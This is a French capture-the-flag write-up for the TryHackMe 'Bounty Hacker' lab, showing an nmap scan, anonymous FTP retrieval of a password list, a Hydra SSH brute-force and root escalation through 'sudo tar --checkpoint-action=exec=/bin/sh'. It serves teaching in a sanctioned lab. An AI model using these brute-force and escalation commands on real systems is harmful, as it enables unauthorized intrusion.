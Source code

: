 ```yaml
---
title: Bounty Hacker
tags: [TryHackMe, Facile, Linux, FTP, Force brute]
style: border
color: thm
comments: false
description: Exploitation d'un serveur web Apache
modified: 18/03/2025
---
```

Lien vers l'épreuve : <https://tryhackme.com/room/cowboyhacker>

![Logo box](https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [Reconnaissance](#reconnaissance)
* [Analyse du serveur {% include dictionary.html word="FTP" %}](#analyse-du-serveur--include-dictionaryhtml-wordftp-)
* [Accéder à la machine](#accéder-à-la-machine)
* [Élévation de privilèges](#élévation-de-privilèges)

## Reconnaissance

```bash
nmap -A -T4 bountyhacker.thm
```

{% capture spoil %}
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 15:58 CEST
Nmap scan report for bountyhacker.thm (10.10.35.165)
Host is up (0.032s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (89%), Linux 2.6.32 (88%), Infomir MAG-250 set-top box (88%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (88%), Linux 3.7 (88%), Linux 5.0 (88%), Linux 5.0 - 5.4 (88%), Linux 5.1 (88%), Ubiquiti AirOS 5.5.9 (88%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.80 ms 10.9.0.1
2   31.82 ms bountyhacker.thm (10.10.35.165)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.88 seconds
{% endcapture %}
{% include elements/spoil.html %}

Le scan {% include dictionary.html word="NMAP" %} indique la présence d'un serveur {% include dictionary.html word="FTP" %} sur le port 21 accessible anonymement, un serveur {% include dictionary.html word="SSH" %} sur le port 22, et un serveur web Apache sur le port 80.

Le serveur web sert à raconter l'histoire de notre personnage qui semble avoir été quelque peu vantard face aux personnages de l'anime [Cowboy Bebop](https://fr.wikipedia.org/wiki/Cowboy_Bebop) et qu'il va devoir faire ses preuves.

## Analyse du serveur {% include dictionary.html word="FTP" %}

Nous récupérons les 2 documents présents sur le serveur :

```bash
ftp anonymous@bountyhacker.thm
Connected to bountyhacker.thm.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41895|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*******************************************|   418        5.86 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (3.98 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*******************************************|    68        0.65 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.49 KiB/s)
```

Le fichier `locks.txt` semble être une liste de mots de passe, et le fichier `task.txt` un plan d'action (machiavélique ?).

```txt
cat task.txt                   
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

## Accéder à la machine

Le fichier `task.txt` contient le nom `lin` qui pourrait être un utilisateur du serveur. Nous allons tenter de trouver un mot de passe correspondant grâce à l'outil {% include dictionary.html word="Hydra" %} sur le service {% include dictionary.html word="SSH" %}.

```bash
hydra -l 'lin' -P locks.txt bountyhacker.thm ssh
```

{% capture spoil %}
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-19 16:27:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://bountyhacker.thm:22/
[22][ssh] host: bountyhacker.thm   login: lin   password: Re[...expurgé...]t3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-19 16:27:37
{% endcapture %}
{% include elements/spoil.html %}

Nous obtenons le mot de passe de l'utilisateur `lin` nous permettant de nous connecter en {% include dictionary.html word="SSH" %} sur le serveur.

Dès que nous nous connectons à la machine avec les identifiants trouvés, nous arrivons sur le bureau de l'utilisateur, contenant le flag utilisateur :

```bash
ls
user.txt

cat user.txt
THM{[...expurgé...]}
```

## Élévation de privilèges

L'utilisateur `lin` est autorisé à utiliser la commande `/bin/tar` en élevant ses privilèges avec {% include dictionary.html word="sudo" %}.

```bash
sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Sur le site [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) nous trouvons le moyen d'abuser de ce privilège pour devenir `root` sur la machine.

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names

id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous sommes root, nous pouvons récupérer le flag root.

```bash
cd /root

ls
root.txt

cat root.txt
THM{[...expurgé...]}
```
